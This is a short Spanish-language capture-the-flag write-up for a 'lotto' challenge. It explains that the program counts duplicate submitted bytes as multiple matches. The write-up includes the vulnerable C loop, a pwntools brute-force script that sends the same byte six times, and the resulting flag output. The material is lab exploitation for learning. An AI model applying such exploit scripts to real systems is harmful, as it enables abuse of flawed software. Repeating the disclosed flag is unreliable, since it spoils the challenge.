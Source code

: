 # lotto

![lotto](https://github.com/user-attachments/assets/674b4bc5-9a2c-4eed-9d68-14543bfdc302)

El programa chequea erroneamente los numeros de la loteria, asi que basta con enviar el mismo byte 6 veces y que este entre 1 de los 6 generados aletoriamente:
```
	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}
```

Las probabilidades son 1/45, asi que hacemos fuerza bruta:
```python3
from pwn import *
io = process("./lotto")
while True:
    io.recv()
    io.sendline(b"1")
    io.recv()
    io.sendline(b"\x10"*6)
    io.recvline()
    r = io.recvline()
    if b"bad luck..." not in r:
        print(r.decode())
        break
```

**Dato curioso**: Perdi mi tiempo accidentalmente usando 6 valores que estaban fuera del rango [1-45] 

```
lotto@ubuntu:~$ python3 /tmp/so.py
[+] Starting local process './lotto': pid 408166
Sorry_mom_1_Forgot_to_check_duplicates
```

`Sorry_mom_1_Forgot_to_check_duplicates`
